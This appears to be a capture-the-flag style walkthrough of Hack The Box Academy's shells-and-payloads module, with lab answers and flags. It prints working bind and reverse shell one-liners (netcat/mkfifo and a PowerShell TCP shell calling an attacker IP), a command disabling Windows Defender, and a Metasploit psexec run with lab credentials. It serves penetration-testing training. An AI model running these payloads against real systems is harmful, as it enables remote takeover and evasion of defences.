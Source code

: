 # HTB-Shells_and_Payloads

## Table of Contents
1. [Shell Basics](#shell-basics)
    1. [Anatomy of a Shell](#anatomy-of-a-shell)
    2. [Bind Shells](#bind-shells)
    3. [Reverse Shells](#reverse-shells)

## Shell Basics
### Anatomy of a Shell
#### Challenges
1. Which two shell languages did we experiment with in this section? (Format: shellname&shellname)

    The answer is `bash&powershell`.

2. In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer

    We just need to type `$PSversiontable`. The answer is `Core`.

### Bind Shells
#### Payload
1. Binding a Bash shell to the TCP session
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
#### Challenges
1. Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?

    The answer is `443`.

2. SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

    First we need ssh to the target. Then we use this payload.
    ```bash
    rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.180.140 7777 > /tmp/f
    ```

    After that, from our client, we can connect to that port using nc.

    ```bash
    nc -nv 10.129.180.140 7777 
    ```

    From there we can read the flag. The answer is `B1nD_Shells_r_cool`.

### Reverse Shells
#### Tools
1. [Reverse Shell CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
2. Windows Reverse Shell Common Payload
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### Challenges
1. When establishing a reverse shell session with a target, will the target act as a client or server?

    The answer is `client`.

2. Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.

    In the our terminal, we open netcat first.
    ```bash
    sudo nc -lvnp 443
    ```

    Then we need to rdp to the target. After that we disable the Windows Defender antivirus by run this payload on the powershell admin previllege.

    ```powershell
    Set-MpPreference -DisableRealtimeMonitoring $true
    ```

    And then we use this payload into cmd.

    ```cmd
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.234',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```

    After that we can type `hostname` in the our terminal. The answer is `Shells-Win10`.

## Payloads
### Tools
1. Metasploit
### Challenges
1. What command language interpreter is used to establish a system shell session with the target?

    The answer is `powerhsell`.

2. Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)

    To solve this, firs we enumerate using nmap.

    ```bash
    nmap -sV -sC -Pn 10.129.201.160
    ```

    We can see it have samba service running.

    ![alt text](assets/Payload1.png)

    Then we use metapsloit.

    ```bash
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set RHOSTS 10.129.201.160
    RHOSTS => 10.129.201.160
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set SHARE ADMIN$
    SHARE => ADMIN$
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set SMBPass HTB_@cademy_stdnt!
    SMBPass => HTB_@cademy_stdnt!
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set SMBUser htb-student
    SMBUser => htb-student
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> set LHOST 10.10.15.234
    LHOST => 10.10.15.234
    [msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> exploit
    ```

    After we on Meterpreter session, we type `shell`. We can explore from there. The answer is `staffsalaries.txt`.
